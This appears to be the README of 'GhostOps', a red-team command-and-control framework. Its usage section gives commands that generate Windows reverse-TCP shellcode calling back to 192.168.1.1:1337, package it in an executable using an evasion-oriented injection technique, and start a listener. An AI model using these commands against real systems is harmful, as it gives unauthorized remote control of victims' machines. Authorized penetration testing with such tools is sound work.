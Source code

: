 <p align="center">
  <img src="https://github.com/user-attachments/assets/ac868e4f-f741-46dd-935b-b9947d8679cc" alt="GhostOps Logo" width="250"/>
</p>

<h3 align="center">GhostOps - Command and Control Framework.</h3>

---

## 🚧 Alpha Phase

> **GhostOps is currently in active alpha development.**  
> Features are subject to change, and stability is not guaranteed.  
> Use in controlled environments for testing and feedback purposes only.

---

## 📖 Overview

**GhostOps** is a modular, extensible, and stealth-oriented Command & Control (C2) framework tailored for red teamers, penetration testers, and cybersecurity professionals. It enables simulation of sophisticated threat actor behavior through encrypted communication channels, payload generation, and covert command execution.

Designed with flexibility and stealth in mind, GhostOps supports multiple payload architectures, handler types, and evasion techniques — all in a clean, plugin-ready architecture.

---

## ✨ Features

- 🔒 **Secure C2 Communication** – Modular handler support including bind and reverse TCP.
- 🧬 **Payload Generation** – Cross-platform payloads for Windows and Linux (x86/x64).
- 👻 **Evasion Modules** – Techniques like direct syscalls, no-API execution, and more.
- 🧩 **Modular Design** – Clean plugin-based architecture for easy extension.
- 🛠 **Poetry-Based Dependency Management** – Simple and reproducible development setup.

---

## ⚙️ Installation

```bash
sudo apt install mingw-w64 python3 python3-pip python3-venv python3-poetry -y
git clone https://github.com/4w4647/GhostOps.git ~/GhostOps
cd ~/GhostOps
poetry install
$(poetry env activate)
ghostops --help
```

## 📂 Project Structure

```bash
.
├── ghostops
│   ├── common
│   │   └── utils.py
│   ├── core
│   │   └── base_module.py
│   ├── ghostops.py
│   └── modules
│       ├── evasion
│       │   └── no_api_exec.py
│       ├── handler
│       │   ├── bind
│       │   │   └── tcp
│       │   │       └── handler_bind_tcp.py
│       │   └── reverse
│       │       └── tcp
│       │           └── handler_reverse_tcp.py
│       └── payload
│           ├── linux
│           │   ├── x64
│           │   │   └── shell
│           │   │       ├── bind
│           │   │       │   └── tcp
│           │   │       │       └── linux_x64_shell_bind_tcp.py
│           │   │       └── reverse
│           │   │           └── tcp
│           │   │               └── linux_x64_shell_reverse_tcp.py
│           │   └── x86
│           │       └── shell
│           │           ├── bind
│           │           │   └── tcp
│           │           │       └── linux_x86_shell_bind_tcp.py
│           │           └── reverse
│           │               └── tcp
│           │                   └── linux_x86_shell_reverse_tcp.py
│           └── windows
│               ├── x64
│               │   └── shell
│               │       ├── bind
│               │       │   └── tcp
│               │       │       └── windows_x64_shell_bind_tcp.py
│               │       └── reverse
│               │           └── tcp
│               │               └── windows_x64_shell_reverse_tcp.py
│               └── x86
│                   └── shell
│                       ├── bind
│                       │   └── tcp
│                       │       └── windows_x86_shell_bind_tcp.py
│                       └── reverse
│                           └── tcp
│                               └── windows_x86_shell_reverse_tcp.py
├── LICENSE
├── poetry.lock
├── pyproject.toml
└── README.md
```

## 🧠 Usage Example

Generating Windows x64 Shell Reverse TCP shellcode.
```bash
ghostops --module WindowsX64ShellReverseTcp --host 192.168.1.1 --port 1337 --output ghostops.bin
```

Generating x64 PE (Portable Executable) that runs generated shellcode using "No Win32 API" shellcode injection technique.
```bash
ghostops --module NoApiExec --arch x64 --shellcode ghostops.bin --output ghostops.exe
```

Starting a Reverse TCP handler.
```bash
ghostops --module HandlerReverseTcp --host 192.168.1.1 --port 1337
```

## 🤝 Contributing

We welcome contributions! If you’d like to report a bug, request a feature, or submit code:

- Fork the repo
- Create a new branch
- Open a pull request
  
Please ensure your code follows existing style conventions and is properly documented.

## 📜 License

**GhostOps** is licensed under the **BSD 3-Clause License**.  
See the [LICENSE](LICENSE) file for full license text.

## ⚖️ Legal Notice

```
GhostOps is intended for educational and authorized penetration testing only.
Unauthorized access to computer systems is illegal and unethical.
Use responsibly and only in environments you own or have explicit permission to test.
```
